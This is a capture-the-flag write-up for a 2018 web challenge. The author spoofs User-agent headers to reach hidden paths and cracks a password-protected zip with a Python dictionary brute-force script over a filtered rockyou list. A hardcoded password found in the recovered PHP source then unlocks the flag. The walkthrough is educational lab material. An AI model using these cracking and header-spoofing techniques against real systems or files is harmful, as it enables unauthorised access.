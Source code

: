 ```yaml
---
layout: posts
title: Lost Treasure (50 pts)
date:   2018-10-01
categories: [CTFs, cronosCTF18]
---
```


[~$ cd ..](/ctfs/cronosctf18/2018/10/01/index.html)

>Ahoy! We 'ave lost a booty 'n know that thar be a map available t' find th' booty.
>Can ye help us find th' booty at <51.68.252.196:8081>.

We are landed on a flat website:

![site](/assets/res/CTFs/cronos_18/lost_treasure/site.png)

As usual, I checked if there was a robots.txt and found:

>User-agent: BlackPearl  
>Allow: /Isla de Muerta  
>User-agent: Pirate  
>Allow: /TreasureMaps  
>User-agent: *  
>Disallow: /Isla de Muerta  
>Disallow: /TreasureMaps  

I then sent a request with expected User-agent:

```bash
% curl -H "User-agent: Pirate" "http://51.68.252.196:8081/TreasureMaps/"  > TreasureMaps.html
```

and got the [following file](/assets/res/CTFs/cronos_18/lost_treasure/TreasureMaps.html):

```html
<html>
<head><title>Index of /TreasureMaps/</title></head>
<body bgcolor="white">
<h1>Index of /TreasureMaps/</h1><hr><pre><a href="../">../</a>
<a href="README.txt">README.txt</a>                                         19-Sep-2018 13:44                  98
<a href="map1.zip">map1.zip</a>                                           19-Sep-2018 13:44                1521
<a href="map10.zip">map10.zip</a>                                          19-Sep-2018 13:44                1521
<a href="map11.zip">map11.zip</a>                                          19-Sep-2018 13:44                1521
<a href="map12.zip">map12.zip</a>                                          19-Sep-2018 13:44                1521
<a href="map13.zip">map13.zip</a>                                          19-Sep-2018 13:44                1521
<a href="map14.zip">map14.zip</a>                                          19-Sep-2018 13:44                1521
<a href="map15.zip">map15.zip</a>                                          19-Sep-2018 13:44                1521
<a href="map16.zip">map16.zip</a>                                          19-Sep-2018 13:44                1521
<a href="map2.zip">map2.zip</a>                                           19-Sep-2018 13:44                1521
<a href="map3.zip">map3.zip</a>                                           19-Sep-2018 13:44                1521
<a href="map4.zip">map4.zip</a>                                           19-Sep-2018 13:44                1521
<a href="map5.zip">map5.zip</a>                                           19-Sep-2018 13:44                1521
<a href="map6.zip">map6.zip</a>                                           19-Sep-2018 13:44                1521
<a href="map7.zip">map7.zip</a>                                           19-Sep-2018 13:44                1521
<a href="map8.zip">map8.zip</a>                                           19-Sep-2018 13:44                1521
<a href="map9.zip">map9.zip</a>                                           19-Sep-2018 13:44                1521
</pre><hr></body>
</html>
```

Let's begin with the README:

```bash
% curl -H "User-agent: Pirate" "http://51.68.252.196:8081/TreasureMaps/README.txt"             
  All our zip files are secured with passwords. Only someone called "RockYou" knows the passwords!
```

and the archives:

```bash
for i in {1..16}; do curl -H "User-agent: Pirate" "http://51.68.252.196:8081/TreasureMaps/map$i.zip" -o "map$i.zip" ;done
```

I then naively started with a dictionary attack with rockyou.txt using a for loop on each archive, but realized that it could no work:

```bash
% for i in {1..16}; do fcrackzip -v -u -D -p rockyou.txt map$i.zip; done
```

because `fcrakzip` couldn't handle properly the kind of file:

```bash
% file map1.zip
  map12.zip: Zip archive data, at least v5.1 to extract
% unzip map1.zip
  Archive:  map1.zip
    skipping: f864ae468a              need PK compat. v5.1 (can do v4.6)
```

I looked for a tool is order to crack password quickly, but didn't found. I then realized that I didn't have to crack them all:

```bash
% md5sum *                    
b32697dc1e9e8da35b9732a8e2859657  map10.zip
b32697dc1e9e8da35b9732a8e2859657  map11.zip
b32697dc1e9e8da35b9732a8e2859657  map12.zip
fe2f3b7c371400f331aa9e975bfc825a  map13.zip
b32697dc1e9e8da35b9732a8e2859657  map14.zip
b32697dc1e9e8da35b9732a8e2859657  map15.zip
b32697dc1e9e8da35b9732a8e2859657  map16.zip
b32697dc1e9e8da35b9732a8e2859657  map1.zip
b32697dc1e9e8da35b9732a8e2859657  map2.zip
b32697dc1e9e8da35b9732a8e2859657  map3.zip
b32697dc1e9e8da35b9732a8e2859657  map4.zip
b32697dc1e9e8da35b9732a8e2859657  map5.zip
b32697dc1e9e8da35b9732a8e2859657  map6.zip
b32697dc1e9e8da35b9732a8e2859657  map7.zip
b32697dc1e9e8da35b9732a8e2859657  map8.zip
b32697dc1e9e8da35b9732a8e2859657  map9.zip
b828b8825c21ac97afce52afbaac5ca6  README.txt
432e5e794481c58c572905d67c27d189  TreasureMaps.html
```

I then kept only [map12.zip](/assets/res/CTFs/cronos_18/lost_treasure/map12.zip) and [map13.zip](/assets/res/CTFs/cronos_18/lost_treasure/map13.zip) and wrote a (non-optimized) Python script to break the passwords:

```python
import subprocess
f = open('pirate.txt', 'r')
passwords = f.read().splitlines()
f.close()
for word in passwords:
	cmd = '7z e -y map12.zip -p%s' % word
	process = subprocess.Popen(cmd.split(), stdout=subprocess.PIPE,stderr=subprocess.PIPE)
	output, error = process.communicate()
	if "ERROR" not in error:
		print word
		process = subprocess.Popen('wc f864ae468a'.split(), stdout=subprocess.PIPE,stderr=subprocess.PIPE)
		output, error = process.communicate()
		print output
		print '-------------'
```

I made the assumption that they were related to the theme of the piracy.
I then `grep`'d rockyou in this way and run the script:

```bash
% grep rockyou.txt -ie pirate > pirate.txt
% run brute.py
 ohs pirate
 0 0 0 f864ae468a

 -------------
 pirates arr cool
 0 0 0 f864ae468a

 -------------
 pirate girl
 0 0 0 f864ae468a

 -------------
 my pirate
 0 0 0 f864ae468a

 -------------
 iwannabeapirate
 90  209 3677 f864ae468a

 -------------
 i luv pirate forever
 0 0 0 f864ae468a
% 7z e -y map13.zip -piwannabeapirate

 7-Zip [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
 p7zip Version 16.02 (locale=fr_FR.utf8,Utf16=on,HugeFiles=on,64 bits,4 CPUs Intel(R) Core(TM) i5-4200U CPU @ 1.60GHz (40651),ASM,AES-NI)

 Scanning the drive for archives:
 1 file, 1521 bytes (2 KiB)

 Extracting archive: map13.zip
 --
 Path = map13.zip
 Type = zip
 Physical Size = 1521

 Everything is Ok

 Size:       3677
Compressed: 1521
```

Password found! I then used **"iwannabeapirate"** and extract the file [/assets/res/CTFs/cronos_18/lost_treasure/f864ae468a](/assets/res/CTFs/cronos_18/lost_treasure/f864ae468a):

```php
<?php
if (isset($_POST['submit'])){
	if($_POST["password"] == "todayisagoodday") {
		header("Location: "); //TODO: add treasure location
		die();
	}
	else {
		header("Location: brrrt.html");
		die();
	}
}
?>
...
```

I then sent the following request to get the location of the treasure:

```bash
% curl -d "submit=&password=todayisagoodday" -H "User-agent: BlackPearl" "http://51.68.252.196:8081/Isla de Muerta/index.php"  -v
 *   Trying 51.68.252.196...
 * TCP_NODELAY set
 * Connected to 51.68.252.196 (51.68.252.196) port 8081 (#0)
 > POST /Isla de Muerta/index.php HTTP/1.1
 > Host: 51.68.252.196:8081
 > Accept: */*
 > User-agent: BlackPearl
 > Content-Length: 32
 > Content-Type: application/x-www-form-urlencoded
 >
 * upload completely sent off: 32 out of 32 bytes
 < HTTP/1.1 302 Moved Temporarily
 < Server: nginx/1.12.2
 < Date: Thu, 04 Oct 2018 16:32:14 GMT
 < Content-Type: text/html
 < Transfer-Encoding: chunked
 < Connection: keep-alive
 < X-Powered-By: PHP/5.4.16
 < Location: Treasure-fipeaifaeaFAFAEfa2eaf78af27zaaerdfae87.html
 <
 * Curl_http_done: called premature == 0
 * Connection #0 to host 51.68.252.196 left intact
```

And capture the flag

```bash
 % curl -H "User-agent: BlackPearl" "http://51.68.252.196:8081/Isla de Muerta/Treasure-fipeaifaeaFAFAEfa2eaf78af27zaaerdfae87.html"  -v
 *   Trying 51.68.252.196...
 * TCP_NODELAY set
 * Connected to 51.68.252.196 (51.68.252.196) port 8081 (#0)
 > GET /Isla de Muerta/Treasure-fipeaifaeaFAFAEfa2eaf78af27zaaerdfae87.html HTTP/1.1
 > Host: 51.68.252.196:8081
 > Accept: */*
 > User-agent: BlackPearl
 >
 < HTTP/1.1 200 OK
 < Server: nginx/1.12.2
 < Date: Thu, 04 Oct 2018 16:33:14 GMT
 < Content-Type: text/html
 < Content-Length: 317
 < Last-Modified: Wed, 19 Sep 2018 13:44:20 GMT
 < Connection: keep-alive
 < ETag: "5ba252b4-13d"
 < Accept-Ranges: bytes
 <
 <head>
  <title>Treasure</title>
  <style>
    html, body, .container {
        height: 100%;
    }
    .container {
        color: white;
        display: none;
    }
  </style>
</head>
<body>
  <h1>Treasure</h1>
  <div class="container">
    <p>AllTreasuremapsLeadToATreasure</p>
  </div>
</body>
* Curl_http_done: called premature == 0
* Connection #0 to host 51.68.252.196 left intact
```

FLAG: **AllTreasuremapsLeadToATreasure**
